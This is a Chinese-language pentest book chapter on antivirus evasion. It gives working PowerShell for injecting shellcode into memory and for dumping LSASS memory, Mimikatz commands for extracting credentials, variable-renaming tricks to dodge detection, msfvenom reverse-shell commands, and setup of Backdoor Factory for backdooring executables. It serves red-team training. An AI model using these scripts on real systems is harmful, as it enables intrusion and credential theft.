# 第十二章：Shell 编码 – 规避杀毒软件

自 1971 年 Creeper 蠕虫在 ARPANET 上 PDP-10 主机之间传播以来，恶意软件的复杂性已经发生了极大变化。由于对未来充满未知，很少有人完全理解这一新生“怪物”的潜力。理解恶意软件潜力的先驱之一是计算机科学家 Fred Cohen，他首次定义了计算机病毒的概念，并发明了对抗计算机病毒的首个方法论。在他 1987 年的开创性论文《计算机病毒——理论与实验》中，Cohen 展示了计算机病毒的绝对精确检测是一个*不可判定的问题*——即一个需要做出“是”或“否”判断的问题，但没有任何系统能够始终给出正确答案（甚至任何答案）。他展示了系统间共享能力与病毒传播潜力之间的简单关系。在随后的几年里，技术的共享能力达到了跨代影响的水平，其潜力可能尚未完全被认识到。随着计算机病毒的能力逐渐成熟，这一问题的复杂性同样需要进一步发展。

这一背景是今天许多人所称的计算机安全中的*猫捉老鼠问题*的起源。我们无法在不帮助对方的情况下，单方面显著提高其中一方的水平。在渗透测试的世界里，这告诉我们永远不要放弃规避恶意软件防御机制的希望，当我们成功时，我们为客户提供关于他们环境中漏洞的真正前沿信息。我们将探讨现代的防御探测方法，以及如何在不离开办公桌的情况下研究更底层的抽象层。

本章将涵盖以下内容：

+   使用 PowerShell 和 Windows API 将 Shellcode 注入内存

+   使用 PowerShell 和 Windows API 从内存中窃取凭证

+   在 Kali 中反汇编 Windows Shellcode 可执行文件

+   使用自定义 Shellcode 为 Windows 可执行文件植入后门

# 技术要求

我们在测试中需要以下前提条件：

+   Kali Linux

+   Windows 10 或 7 虚拟机

# 使用 PowerShell 进行离线操作

“你就像个婴儿，发出噪音，不知道该做什么。”

– *阿凡达*中的内蒂莉

所以，你有了一些美味的 shellcode，需要执行它。你可以直接从 `msfvenom` 生成一个可执行文件，但我不认为世界上有任何一个防病毒产品能避免检测到这个。我们也曾使用 Shellter 进行动态注入，并且在本章后面我们将进一步探讨更多无害的 **便携式可执行文件**（**PEs**）的寄生方式——但再次强调，我们是将指令嵌入到一个二进制文件中，期望在防病毒软件判断程序是安全的情况下偷偷绕过它。另一方面，脚本并不是机器代码。它们是需要被解释的高级指令——实际的机器代码是在解释器中运行的。虽然这并非万无一失，且防病毒供应商早已意识到我们这些脚本编写者的行为，但它在恶意意图和实际执行之间增加了一层诱人的抽象。

在我那个时代，我们必须将工具集拖到目标机器上然后开始工作。现在的孩子们，Windows 目标系统上自带 PowerShell，它可以像任何 PE 文件一样与 Windows API 进行交互。这为 **利用现有资源**（**LotL**）方法开辟了一个全新的世界——利用目标上已经存在的资源。这并不新鲜——例如，攻击 Linux 主机早就有了像 Python 这样的工具可以在目标机器上存在的潜力。Windows 目标系统的情况差异很大，从系统管理员的工具宝库到简单的嵌入式系统都有，因此在获得初步立足点后，把你的工具搬过去可是件很麻烦的事。

这里的核心概念是解释器*已经*存在，并且任何防御软件都知道它*不是*恶意软件。不要被误导认为这意味着你的数字恐怖活动可以自由进行——正如本书其他地方所述，防御并*不*愚蠢。他们非常清楚这个攻击途径，终端保护产品在捕获这些方法上的成功率各不相同。在今天的时代，即使某个行为没有被阻止，检测技术也已经有了快速的提升——你可能成功执行了恶意 PowerShell 命令，并以为自己安全无虞，但在你开始获取战利品之前，防御分析师已经在审查你的活动了。你应该始终了解你的目标环境，并相应地制定计划。回想一下*第一章*，*开放源代码情报*，开放源代码情报的价值以及你的客户中有人可能已经在供应商论坛上寻求帮助的可能性。你或许已经能获得有关防御情况的线索。它们使用 McAfee 吗？那么你需要在一个隔离的 McAfee 环境中调查你的攻击。也许在 80%的供应商中会被标记的攻击在你的目标环境中就会被忽视。那么如果你的攻击*在*测试环境中被标记了呢？尝试进行一些修改。令人惊讶的是，即使在今天这个攻击手段复杂的时代，一些供应商会最初阻止一个脚本，但在修改了一些变量名后又允许它运行。

讲完这些哲学性话题后，让我们来看看你可能如何在目标上使用 PowerShell 发起一些意想不到的攻击——无需下载任何文件。

## 注入 Shellcode 到解释器内存

正如某位名人曾经说过，“不要问 PowerShell 能为你做什么，而是问你能用 Windows 原生 API 做什么。” 好吧，好像没有哪个名人说过这句话，但这是个不错的建议。PowerShell 只是我们连接原生 API 函数并利用其功能的桥梁。在这种情况下，我们将调用 `kernel32.dll` 和 `msvcrt.dll` 中的函数。我们需要 `kernel32.dll` 来为我们的使用保留内存并在这段保留的空间内启动一个新线程；然后，我们使用 `msvcrt.dll`（C 运行时库），以便我们可以用特定字符设置保留空间中的每个位置——在我们这个案例中，就是将每个字节的位置填充为 shellcode。

首先，我们将用 C# 签名定义函数；这些函数将存储在名为 `$signatures` 的变量中。然后，我们使用 `Add-Type` 将它们引入我们的 PowerShell 会话。我们来看看：

```
$signatures = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
```

```
[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); 
```

```
[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'; 
```

```
$functionImport = Add-Type -MemberDefinition $signatures -Name "Win32" -NameSpace Win32Functions -PassThru;
```

好的，这并没有那么痛苦。我们创建了 `$signatures` 变量，并且在其中包含了将两个 DLL 中的三个函数引入的代码。最后，我们创建了一个名为 `$functionImport` 的对象，它现在包含了这些函数。从这时起，我们只需要与 `$functionImport` 交互来调用这些函数。

现在，我们需要创建一个名为`$shellcode`的字节数组。这个数组将包含我们有效负载的每个字节，我们将使用`For`循环来依次引用每个元素：

```
[Byte[]] $shellcode = <Tasty Bytes Go Here>; 
```

```
$size = $shellcode.Length
```

```
$allocSpace = $functionImport::VirtualAlloc(0, $size, 0x3000, 0x40);
```

请注意，我们告诉`VirtualAlloc()`精确的 shellcode 大小。其他参数呢？在你解析这段代码（以及你未来在职业生涯中遇到的其他代码）时，注意我们最初是如何定义这些参数的：`IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect`。这告诉我们，`VirtualAlloc()`将按顺序期待一个地址、一个大小、一个分配类型以及分配空间中将使用的内存保护类型。像往常一样，我鼓励你跳出这些页面，深入了解更多细节。

我们的倒数第二步是使用`memset()`将我们分配空间的每个位置设置为来自 shellcode 的一个字符。正如你能想象的那样，最佳的实现方式是使用`For`循环。我们将声明一个名为`$position`的计数器，并随着它的递增，`memset()`会将相应的字节设置到分配空间中，使用`$position`作为偏移量，结合`$allocSpace`来确定确切的位置：

```
For ($position = 0; $position -le ($shellcode.Length - 1); $position++) { 
```

```
    $functionImport::memset(IntPtr + $position), $shellcode[$position], 1) 
```

```
};
```

陷阱已设下。我们只需要执行它。正如你从我们定义`$signatures`时记得的，传递给`CreateThread()`的第三个参数是起始地址——在这个例子中就是`$allocSpace`。最后，为了在新线程运行时保持进程的持续运行，我们使用`While ($true)`来创建一个无限休眠。或许有一天会做个美梦？

```
$functionImport::CreateThread(0, 0, $allocSpace, 0, 0, 0); 
```

```
While ($true) { 
```

```
    Start-Sleep 120 
```

```
};
```

在我们兴奋的过程中，差点忘了生成 shellcode！当然，可能性是无穷的。为了演示，我们就生成一段快速的消息框 shellcode，使用`msfvenom`：



图 12.1 – 在 PowerShell 字节格式中生成有效负载

永远有用的`msfvenom`会输出结果为 PowerShell 格式并将其命名为`$buf`。你可以单独复制并粘贴字节，或者只需重命名变量。当我在我的 Windows 10 实验室中运行这段代码时，控制台会在`For`循环使用`memset()`时打印每个地址位置。最后，我们看到 shellcode 成功执行：



图 12.2 – 执行的有效负载

请注意，还有一些相关的函数叫做`VirtualAllocEx()`和`CreateRemoteThread()`。它们有什么区别呢？这两个函数实现的效果是一样的，只不过是作用于*另一个*进程的内存。通过在这里使用这些函数，PowerShell 解释器正在它自己的内存中分配空间并在自己的进程下启动一个新线程。秉持着我们的口号，*防御不可傻*，有很多方法可以捕捉到这种行为。然而，要跟上所有变化是非常困难的，而且有些厂商直到今天仍然依赖旧的方法。保持灵活的思维！

## 挑战自我 – 使用 PowerShell 进行即时 LSASS 内存转储

让我们继续使用 PowerShell 与 Windows API 进行实时交互的主题。这一次，我们不打算注入任何内容；我们要使用 Windows 本地的调试功能来攻击 **本地安全授权服务器服务**(**LSASS**)。这种行为 *应该* 被拦截，但我们发现，在某些配置和某些 AV 供应商的情况下，这仍然有效。

战争故事 – 一个真实的攻击场景

最近，我参与了一次主要基于 Windows 10 环境的红队评估。团队中的一位成员编写了一个精妙的工具，利用 Windows 本地的内存转储方法来转储 LSASS 内存，并调用 Mimikatz 提取凭证。这个工具一直都能正常工作，直到有一天，终端保护软件更新了，开始拦截它。几周后，我在一台安装了流行远程控制软件 VNC、且密码较弱的主机上工作，而 Windows 会话也保持解锁状态。因此，我可以虚拟地坐到键盘前。我写出了同样工具的 PowerShell 版本，然后将文本托管为一个网页。通过目标 PC 上的浏览器，我访问了该页面，复制了 PowerShell 脚本的文本，将其粘贴到 PowerShell 会话中并按下回车。它成功了！我得到了 LSASS 内存的转储，而且不需要下载任何东西。

这篇写得很简短，一旦你习惯了，就能省去一些代码行。和我们的内存注入攻击类似，我们正在利用本地方法。在这种情况下，我们使用了 `MiniDumpWriteDump()`，这是一个为我们创建小转储文件的函数。我们可以指定要转储的进程，那么让我们看看当我们尝试对 LSASS 进程进行操作时会发生什么。开始吧：

```
$WinErrRep = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
```

```
$werNativeMethods = $WinErrRep.GetNestedType('NativeMethods', 'NonPublic')
```

```
$Flags = [Reflection.BindingFlags] 'NonPublic, Static'
```

```
$MiniDumpWriteDump = $werNativeMethods.GetMethod('MiniDumpWriteDump', $Flags)
```

到目前为止，一切顺利。我们引入了 `WindowsErrorReporting`，它允许我们在某些崩溃发生时找出问题所在。本质上，我们希望能够像调查普通的 **蓝屏死机**(**BSoD**) 崩溃一样，调查 LSASS。在我们可以使用的各种方法中，我们选择了 `MiniDumpWriteDump()`。现在，我们需要定义目标进程以及转储文件的目的地。

```
$MiniDumpfull = [UInt32] 2
```

```
$lsass = Get-Process lsass
```

```
$ProcessId = $lsass.Id
```

```
$ProcessName = $lsass.Name
```

```
$ProcessHandle = $lsass.Handle
```

```
$ProcessFileName = "$Home\Desktop\pirate_booty.dmp"
```

如你所想，我们可以针对任何我们想要的进程。在一次评估中，我获得了对 SCADA 设备的访问，并使用这段脚本从管理工业过程的专有客户端中转储了内存。我们为 `$lsass` 的每个属性声明了变量，并定义了转储文件的目标位置——本地桌面：

```
$FileStream = New-Object IO.FileStream($ProcessFileName, [IO.FileMode]::Create)
```

```
$Result = $MiniDumpWriteDump.Invoke($null, @(
```

```
    $ProcessHandle,
```

```
    $ProcessId,
```

```
    $FileStream.SafeFileHandle,
```

```
    $MiniDumpfull,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero))
```

```
$FileStream.Close()
```

```
If (-not $Result) {
```

```
    $Exception = New-Object ComponentModel.Win32Exception
```

```
    $ExceptionMessage = "$($Exception.Message) ($($ProcessName):$($ProcessId))"
```

```
    Remove-Item $ProcessFileName -ErrorAction SilentlyContinue
```

```
    Throw $ExceptionMessage
```

```
} Else {
```

```
    Exit
```

```
}
```

最后是我们操作的核心部分。我们创建了一个 `FileStream` 对象，当调用 `MiniDumpWriteDump()` 时会引用它。它指向我们刚刚指定的桌面文件位置。为了方便起见，我们还加入了一些错误处理，以防途中遇到问题，但这部分你不需要。如果操作成功，你会在桌面看到一个名为 `pirate_booty.dmp` 的大文件。我们正在转储 LSASS，因此理论上它应该是一个庞大的兆字节文件。如果你没有看到失败，但文件大小为零，那就表示没有成功。

这次攻击的好处在于，我们仅仅是收集一个转储文件；我们不担心 Mimikatz 被杀毒软件检测到，因为它已经回到我们的攻击主机。此时唯一的要求是将转储文件从目标机器拿回来。一旦我们得到了有用的文件，我们调用 Mimikatz 并传递两个命令来强制进行本地文件分析：

mimikatz # sekurlsa::minidump <文件名>

mimikatz # sekurlsa::logonPasswords

让你的眼睛闪烁，享受眼前的宝藏，就像查理第一次看到巧克力棒里的金色票券时的表情。请记住，我们看到的是实时运行的 LSASS 转储，因此这里可能有缓存的域凭证，我们*无法*看到。额外的好处是，无论我们在这里找到什么，都是最新的：



图 12.3 – 使用 Mimikatz 从 LSASS 转储中提取凭证

你可以将这些信息用于横向移动——例如，将这里提取的哈希值放入 Metasploit 的 `PSEXEC` 模块中的 `PASSWORD` 字段。我能听到你此刻在问，“难道这就*这么简单*吗？”

## 保持灵活 —— 调整脚本

如果你照字面输入这些命令，并在刚安装的 Windows 10 上运行，可能会遇到 Defender 的问题。关于杀毒软件（AV）最重要的一点是，它并不是某一个单一的产品或策略；有许多供应商使用各自的专有方法，它们也可能有自己的独特忽视之处。例如，假设一个公司通过他们的合同支持协议向杀毒软件供应商报告了一个假阴性（即没有检测到的病毒）。供应商通常会抓取报告文件的 SHA256 指纹，并将其加入下一个版本的病毒库签名中，这意味着你只需要改变源代码中的一个字符，就可以得到一个*未知的*程序。

有时，操作非常简单，只是添加注释 —— 它们完全不会改变程序的行为，但增加了额外的信息。你甚至可以改变变量名：



图 12.4 – 使用 Notepad++ 的查找和替换功能调整变量名

再次强调，脚本的行为没有发生任何改变。任何值得信赖的防病毒（AV）产品都应该能够捕捉到某些行为，不管调用过程是多么巧妙。但是，*“应该”*是这里的关键字，因此总是值得一试。没有一种通用的解决方案可以绕过防病毒软件；你需要根据目标的环境来设计绕过方法。

通过回顾几种自给自足的生存技巧，让我们更深入地了解一下`shellcode`的生成过程。

# 理解 Metasploit shellcode 的传递方式

我们通过`msfvenom`生成的 shellcode，最终是机器代码，告诉处理器如何执行某些操作，例如绑定到本地端口。一旦我们了解了低级概念，如堆栈、堆、虚拟地址空间和汇编语言，那么对 shellcode 的描述就足够直观。

`Shellcoding`的*艺术*有两个关键考虑因素：目标执行环境的特性和实际的 shellcode 传递方式。第一个考虑因素包括字节序和破坏 shellcode 的字符；这个分析决定了`0x20`在 shellcode 中正常工作的情况与`0x20`成为我们需要避开的几个字符之一的情况。第二个考虑因素包括类似我们在堆喷射攻击中所涉及的情境，我们需要使用`unescape()`函数来解析字节。shellcode 的传递必须考虑到过滤机制的潜在影响。同样，shellcode 最终是机器代码，但当我们编写利用代码时，shellcode 作为一个变量可能需要被当作字符串处理，然后传递到一个可能会或不会理解这些字符串的函数中。shellcoding 的部分艺术就是“走私”。

## 编码器理论与技术 —— 什么是编码，什么不是编码

`msfvenom` 帮助我们成为有效走私者的方式之一是通过提供编码器。编码器通过可逆算法将 shellcode 字节转化为另一种形式；然后，解码器存根被附加到 shellcode 上。现在，你经常会看到关于编码器以及它们在绕过 AV 保护方面的价值的讨论。明智的做法是不要沉迷于通过编码绕过 AV 以实现不可检测的有效载荷的梦想，原因有几个。首先，编码器实际上是用来帮助处理输入验证问题的；它们并不是为了绕过 AV。举个例子，假设你找到一个从用户获取输入的应用程序。你通过测试发现，如果你溢出缓冲区，就能控制执行；因此，你开始尝试通过该应用的用户输入机制传递 shellcode。如果输入机制不允许某些字符，尽管没有边界检查，你也会被卡住。这就是编码器的真正用途。其次，更重要的是，使用编码器进行 AV 规避的概念意味着，AV 只关注表示 shellcode 的特定字节序列。作为黑客，我们应该更明白这一点。即使是简单的基于签名的 AV 扫描器也能检测到如解码器存根和其他 Metasploit、BDF、Shellter、Veil 等的标志。如今市场上更先进的 AV 产品使用了更复杂的检查：它们将代码放入沙箱中，实际观察其功能；它们使用机器学习启发式算法；它们从数百万终端设备中每分钟收集小块信息，黑客们正在尝试各种方法。我很抱歉要打破这个泡沫，但最好放弃通过今天的 AV 产品悄悄通过 shellcode 的梦想。我听到后面有人说：“*但上周那个零日恶意软件没有被 AV 检测到，我有个朋友用 msfvenom 和 BDF 等工具生成了一个完全不可检测的 Trojan*。”我不是说 AV 规避已经死了——事实上，正如我在本书中展示的那样，它依然生机勃勃。

强调的是 *万无一失*。从中可以得到的启示是，你必须尽可能了解你的目标环境。我们很容易沉迷于疯狂的打字黑客技术，以至于忘记了传统的侦察工作。

但我跑题了。我们来快速看看 `x86/shikata_ga_nai` 编码器，感受一下它的工作原理。我们不会深入探讨编码器内部的机制，但这是一个回顾在 Kali 中检查 Windows 可执行文件汇编的好机会。

## 在 Kali 中的 Windows 二进制文件反汇编

我们要做的事情非常简单——生成三个 Windows 二进制文件。两个文件将使用完全相同的参数——我们将执行相同的`msfvenom`命令两次，输出到不同的文件名以便比较——但是会使用`x86/shikata_ga_nai`编码器。然后，我们将生成相同的 shellcode 作为 Windows 二进制文件，但不使用任何编码器。负载是一个简单的反向 TCP shell，指向我们的主机`192.168.108.117`，端口为`1066`：

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell1.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell2.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --format exe > shell_noencode.exe

使用`sha256sum`比较两个编码后的 payload EXE 文件。在不查看单个字节的情况下，我们可以看到每次迭代的代码都是唯一的：



图 12.5 – 比较我们两个编码后的恶意软件 PE 文件的指纹

在 Kali 中分析二进制文件有两个不可或缺的工具：`xxd`和`objdump`。`xxd`是一个十六进制转储工具，它将二进制文件的原始内容以十六进制形式输出。`objdump`是一个更通用的工具，用于分析对象文件，但它的功能使其成为一个便捷的反汇编器。将这些工具的强大功能与`grep`结合，你就有了一种快速粗略地查找二进制文件中特定模式的方法。让我们从对未编码的 Windows 后门进行反汇编开始：

# objdump -D shell_noencode.exe -M intel

请注意，我使用的是 Intel 格式的反汇编；毕竟这是一个 Windows 可执行文件。即使是 Windows 爱好者，在 Kali 上查看反汇编也能感到得心应手。这是一个很大的输出——请拿杯咖啡，慢慢浏览。在此期间，让我们看看能否在这个文件中找到`LHOST`的 IP 地址。我们知道`192.168.108.117`的十六进制表示是`c0.a8.6c.75`，所以让我们使用`grep`来找出它：

# objdump -D shell_noencode.exe -M intel | grep "c0 a8 6c 75"



图 12.6 – 使用 objdump 和 grep 查找特定指令

在`40888a`处，我们找到将目标 IP 地址压入堆栈的指令。试着在其中一个编码后的文件中找到相同的字节。差一点就对了。所以我们知道编码器已经有效地加密了这些字节，但我们也知道使用相同编码器和相同参数生成的两个文件的哈希值是不同的。我们可以将这两个二进制文件的十六进制转储并排放置，了解`x86/shikata_ga_nai`做了什么。

向下滚动到`.text`部分，看看两个二进制文件中常见的字节序列：



图 12.7 – 寻找两个二进制文件之间的模式

如果仔细观察这段内存快照，你会发现有很多相同的字节序列；我已经突出显示了从 `0x00001010` 开始的单行中的几个字节。现在，我们可以回到我们的反汇编代码，并对这里发生的情况进行分析：



图 12.8 – 使用 objdump 和 grep 分析两个编码后的 PE 文件

尽管输出是独特的，我们仍然能看到一些明显的相似之处。在这个例子中，两个二进制文件在内存的相同位置有类似的指令：`push 0x6fd1d8` 和 `push 0x40d1d8`。`push` 的操作码是 `68`，接下来的两个字节 `d8 d1` 在操作数中是反向排列的。没错，这是小端字节顺序！这些模式有助于我们理解编码过程的工作原理，同时也帮助我们理解 AV 扫描器如何检测到我们的编码 shellcode。

现在我们已经有了一些关于如何分析我们的创作以更好地理解它们如何工作的思路，接下来让我们回到实际的攻击，进行 shellcode 注入。

# 使用 Backdoor Factory 注入

在 *第七章*，*使用 Metasploit 进行高级利用*，我们花了一些时间研究了 Shellter，这是一个用于动态注入到 Windows 可执行文件中的工具。Shellter 通过检查机器码和所选可执行文件的执行流程，识别出在不创建明显结构的情况下注入 shellcode 的方法；最终结果是一个具有高度抗 AV 检测能力的可执行文件，准备运行你的有效负载。虽然有一些类似的工具，但 Shellter 是其中最好的之一，但它也有几个限制——即，它是一个 Windows 应用程序，并且只能修补 32 位二进制文件。第一个限制并不是什么大问题，考虑到我们可以通过 Wine 运行它，但根据不同的视角，这也许会被认为是个缺点。第二个限制也不是什么大问题，因为任何 32 位应用程序在 64 位 Windows 上都能正常运行，但在面对强大防御的情况下，我们需要更多的选择，而不是更少。

在 *第七章*，*使用 Metasploit 进行高级利用* 中，我们正在探索快速而简便的 AV 绕过方法，以便将 Metasploit 有效负载偷偷注入。在本节中，我们采取更高级的方式来理解 Windows 二进制文件中的 shellcode 注入。这一次，我们将研究 `Backdoor Factory** (`BDF**).

## 使用 PyEnv 进行时间旅行

BDF 唯一的问题是它已经有多年未更新了。它是如此有用的工具，依然相关；然而，由于它是用旧版本的 Python 编写的，我们必须能够将我们自己的 Python 安装回到过去。作为复习，Python 2 已于 2020 年 1 月 1 日正式结束生命周期，因此强烈推荐今后使用 Python 3。幸运的是，有一个工具可以让我们只通过一个命令就能改变全局 Python 版本，这样我们就能在 Python 3 和 Python 2 之间切换——它叫做 `PyEnv`。让我们安装 PyEnv，并回到 Python 2.7.18。准备好零食——这只需要一组命令：

apt update

apt install -y build-essential libssl-dev zlib1g-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev xz-utils tk-dev libffi-dev liblzma-dev python3-openssl git

curl https://pyenv.run | bash

此时，PyEnv 会检测到它不在加载路径中。它会推荐你在 Z Shell 配置中添加三行。幸运的是，从那里开始就只需复制粘贴了。使用 `echo` 将它们添加进去，然后重启 shell：

echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.zshrc

echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.zshrc

echo 'eval "$(pyenv init -)"' >> ~/.zshrc

exec $SHELL

最后，我们可以登上时光机：

pyenv install 2.7.18

pyenv global 2.7.18

重启你的电脑并验证你是否真的在玩弄过去的老玩具：



图 12.9 – 验证我们正在运行 Python 2

## 安装 BDF

我们只需使用 pip 获取一些 Python 依赖：

python -m pip install pefile

python -m pip install capstone

最后，我们可以使用 git 克隆 BDF：

git clone https://github.com/secretsquirrel/the-backdoor-factory

cd the-backdoor-factory

./install.sh

让我们开始使用这些新玩具。

## 代码注入基础知识 – 使用 BDF 进行微调

我喜欢这个工具的名字 *Backdoor Factory*，因为在真正的工厂中，你可以看到所有小的活动部件如何协同工作，创造出工厂最终生产的产品。当你第一次启动 BDF 时，可能会对命令行中提供的选项感到吃惊。虽然我们不会详细介绍所有这些选项，但我希望我们能对工具有所了解。在本章中，我们不会尝试所有功能，在某些评估中，你可能只需要几个参数就能完成任务。然而，工作的一部分是理解工具集的能力，以便你能有效地识别问题的解决方案。我们将这样做，但在回顾 BDF 功能之前，让我们更深入地理解将 shellcode 注入可执行文件（也叫做 **补丁**）的过程。任何动态注入器的核心概念之一就是代码洞。**代码洞** 是由仅包含空字节（**0x00**）的进程内存块组成。我们称它们为代码洞，因为它们黑暗、可怕且空荡荡的，就像熊住在其中，它们是藏匿恶意代码的好地方。（我撒了个谎，那里并没有熊。）这些“空无一物”的结构对我们很重要，因为它们让我们能够添加代码而不改变已经存在的内容。

在这个例子中，我突出了一个 Windows 安装程序中的代码洞：



图 12.10 – 在 IDA 反汇编器中找到代码洞

如果不设置任何标志，运行 BDF 只会显示这些选项（以及一个有趣的 ASCII 横幅）。让我们看看这个工具能做什么。请注意，这里有一些选项超出了我们的讨论范围或不需要解释，因此我跳过了它们。（实际上，有一个选项是针对 OnionDuke 的，你不会在太多合法的白帽子场景中看到它。）你可以通过以下简单命令启动工具：

# ./backdoor.py

如果没有任何参数，BDF 会告诉你可用的选项：

+   `--file=` 用于标识将使用你的代码进行修补的二进制文件。

